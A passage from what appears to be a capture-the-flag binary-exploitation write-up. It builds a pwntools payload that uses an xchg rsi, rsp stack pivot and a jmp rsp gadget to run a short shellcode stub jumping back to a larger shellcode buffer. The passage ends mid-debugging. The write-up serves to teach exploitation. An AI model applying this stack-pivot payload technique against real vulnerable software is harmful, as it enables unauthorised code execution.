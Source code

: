 Great, so in theory we have what we need to execute some code inside the seconde buffer. Let's see what it looks like in pwntools:

``` python

jmp_rsp = 0x400738 #jmp rsp gadget
gadget = 0x400732  # exch rsi, rsp; pop rbp; ret

def send_payload():
    payload = 8 * b'\x90' #The pop rbp adds 8 to rsp so this instruction is ignored
    payload += p64(jmp_rsp) #Jmp rsp gadget which allows us to execute code
    payload += 8 * b'\x90' # 8bytes of code we can actually write
    payload += p64(gadget) # exch rsi, rsp; pop rbp; ret

    log.info("sending payload")
    io.sendline(payload)
```

Now with the 8 bytes of instructions we have we need to set *%rsp* so the value of the first bigger buffer and jump to it.

Both buffers are on the stack, so they will always have the same distance between them.

![alt text](./screenshots/buffers_difference.png "buffer difference")

Oh ghidra how did people do before you came out.

So the first buffer that contains our shellcode is always *0x40* before the second.

So now we have everything we need, we substract 0x40 from *%rsp* and jmp to it.

```
def send_payload():
    payload = 8 * b'\x90' #The pop rbp adds 8 to rsp so this instruction is ignored
    payload += p64(jmp_rsp) #Jmp rsp gadget which allows us to execute code
    payload += asm("sub rsp,0x40; jmp rsp; nop; nop")
    payload += p64(gadget) # exch rsi, rsp; pop rbp; ret

    log.info("sending payload")
    io.sendline(payload)
```

We had two *nop* so that the payload stays aligned.
So yay it should work, well it doesn't.

The pop which occurs after the register exchange added 8 to *%rsp* and the *ret* instruction added 2.
